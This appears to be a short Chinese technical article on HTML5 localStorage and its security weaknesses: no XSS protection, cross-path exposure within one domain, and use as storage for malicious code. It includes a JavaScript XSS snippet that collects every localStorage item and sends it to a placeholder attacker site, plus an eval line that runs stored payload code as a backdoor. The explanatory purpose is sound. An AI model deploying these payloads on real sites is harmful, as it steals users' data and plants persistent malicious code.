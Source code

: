 ##简介
----

* HTML5本地存储被视作是新时代Cookie的替代品。HTML5的本地存储是使用localStorage对象将WEB数据持久化在本地。相比较而言HTML5本地存储中每个域的存储大小默认是5M，比起Cookie的4K要大的多。而且存储和读取数据的代码极为简练： 

* 主要接口函数有下面几个：

	Window.localStorage.setItem(key,value);//存储数据  
	Window.localStorage.getItem(key);//读取数据  
	Window.localStorage.removeItem(key);//删除数据项  
	Window.localStorage.clear();//删除所有数据  

----

##安全问题

####没有XSS的保护机制

* cookie有httponly等属性能够保护cookie不被xss攻击，但是localStorage就没有。一旦发生XSS，攻击者能够直接获得存储的信息。
攻击代码示例：

<pre><code>var i = 0;  
var str = "";  
while (localStorage.key(i) != null)  
{  
var key = localStorage.key(i);  
	str += key + ": " + localStorage.getItem(key);  
	i++;  
}  
document.location="http://your-malicious-site.com?stolen="+ str;
</pre></code>

####容易遭受跨目录攻击

* cookie可以指定域中的存储路径，但是localStorage没有这样的概念。也就是说，如果同一个域下的任意路径存在XSS漏洞，整个域下存储的数据在知道存储名称的情况下都可以被获取到。

* 例如，现在有两个用户Jack 和Tom，他们共同在某网站下有一个博客如：blog.xxx.com/Jack , blog.xxx.com/Tom 。现在Jack发现了该网站的一个XSS漏洞，那么他在自己的博客中存储下xss攻击代码。那么Tom只要访问 blog.xxx.com/Jack , 就会把自己本地的localStorage数据暴露给XSS代码。

####可以作为恶意代码存储的温床

localStorage的存储是永久的，那么就可以作为web shell code 的存储位置，这样在xss中添加类似这样的代码 

	eval(window.localStorage.getItem("webshellcode"));

就能够取出shellcode进行攻击。从而留下了后门。
